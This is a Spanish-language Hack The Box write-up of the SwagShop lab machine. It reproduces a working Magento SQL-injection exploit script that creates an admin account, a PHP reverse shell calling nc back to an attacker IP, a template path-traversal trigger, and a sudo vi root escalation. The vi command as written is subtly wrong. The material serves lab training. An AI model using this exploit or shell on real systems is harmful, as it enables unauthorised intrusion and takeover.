 # SwagShop {-}

## Introduccion {-}

La maquina del dia 14/08/2021 se llama SwagShop.

El replay del live se puede ver aqui

[![S4vitaar SwagShop maquina](https://img.youtube.com/vi/Hoionj3rnf8/0.jpg)](https://www.youtube.com/watch?v=Hoionj3rnf8)

No olvideis dejar un like al video y un commentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.140
```
ttl: 63 -> maquina Linux

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.140
```

Va lento

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.140 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p22,80 10.10.10.140 -oN targeted
```


| Puerto | Servicio | Que se nos occure? | Que falta?           |
| ------ | -------- | ------------------ | -------------------- |
| 22     | ssh      | Conneccion directa | usuario y contraseña |
| 80     | http     | Web, Fuzzing       |                      |



### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.140
```

Vemos que estamos en frente de una maquina Linux servido por un Apache 2.4.18 con un dominio **swagshop.htb**.
Vemos que hay un error porque la pagina nos redirige automaticamente al dominio y da un error.
Añadimos el dominio a nuestro `/etc/hosts` y volmemos a lanzar el whatweb.

Ahora vemos que estamos en frente de un Magento.

#### Checkear la web del puerto 80 {-}

Con firefox navigamos en la web para ver lo que es. Vemos una web donde se puede comprar productos. Vemos que hay
un panel de busqueda. Intentamos ver si es vulnerable a un html injeccion o un XSS pero no es el caso.

Nos damos cuenta que la URL es `http://swagshop.htb/index.php/`. La ultima bara nos hace pensar que puede ser un directorio.
Vamos a fuzzear la web.

#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.140/index.php/FUZZ
```

Encontramos unas rutas:

- admin
- catalog
- home
- contacts
- home

Miramos lo que hay en la routa `http://10.10.10.140/index.php/admin`

Checkeamos en la web si existen credenciales por defecto para Magento pero no funcciona. Miramos si existe algo interesante en **exploit-db**

## Vulnerability Assessment {-}

### Checkeando exploit para Magento {-}

```bash
searchsploit magento
```

Vemos un exploit que nos llama la atencion -> Magento eCommerce - Remote Code Execution

Nos copiamos el script en el directorio actual de trabajo y lo analyzamos

```bash
searchsploit -m 37977
mv 37977.py magento_rce.py
vi magento_rce.py
```

Modificamos el script para que funccione

```python
import requests
import base64
import sys

target = "http://10.10.10.140/index.php"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES ('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES (1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="forme", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
r = requests.post(target_url,
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"
```

Lanzamos el script con el commando `python3 magento_rce.py` y nos dice que el script a funccionado y a creado un usuario forme con la contraseña forme.

Lo miramos desde la web y entramos en Admin panel de Magento.
## Vuln exploit & Gaining Access {-}

### Ganando accesso desde Magento {-}

Para ganar acceso desde un panel Admin de Magento siempre va de la misma forma.

Nos ponemos en escucha por el puerto 443

```bash
nc -nlvp 443
```

Desde el panel de configuration de Magento

1. Vamos al menu `System -> Configuration`.
1. En el Menu de izquierda vamos a `ADVANCED -> Developer`
1. En Template Settings Habilitamos los Symlinks y damos al boton `Save Config`
1. En el menu principal, le damos a `catalog -> Manage Categories`

Aqui tenemos que crear una reverse shell `vi shell.php.png`

```php
<?php
    system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f");
?>
```

De esta manera, la podemos subir al magento en la parte **Image**, en Name ponemos **test** y damos al boton Save Category
Si hacemos hovering por encima del link de la imagen vemos la routa siguiente

`http://swagshop.htb/media/catalog/category/shell.php.png`

Aqui creamos un nuevo Newsletter Template.

1. En el menu Pricipal damos a `Newsletter -> Newsletter Templates`
1. damos al boton Add Newsletter Template
1. En el formulario le ponemos

    - Template Name: `Test`
    - Template Subject: `Test`
    - Template Content: `{{block type="core/template" template="../media/catalog/category/shell.php.png"}}`

1. le damos al boton Save Template, pinchamos al template creado y le damos a preview template

Aqui no passa nada, lo que quiere decir que la profundida del path traversal no es buena. Intentamos con 2 `../../media` hasta llegar
a la buena profundidad que seria `../../../../../../media/catalog/category/shell.php.png` y hemos ganado acceso a la maquina victima.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Dandole a `cd /home` vemos que hay un usuario haris que contiene el **user.txt** y podemos ver la flag## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /root
> Permission denied
id
sudo -l
```

Vemos que podemos lanzar `/usr/bin/vi` como root sin proporcionar contraseña.

Como con vi se puede settear nuevas variables, es muy facil rootear esta maquina

```bash
sudo -u root vi /var/www/html/EEEEEE
:set_shell=/bin/bash
:shell
```

Ya tenemos una consola como root y podemos visualizar la flag
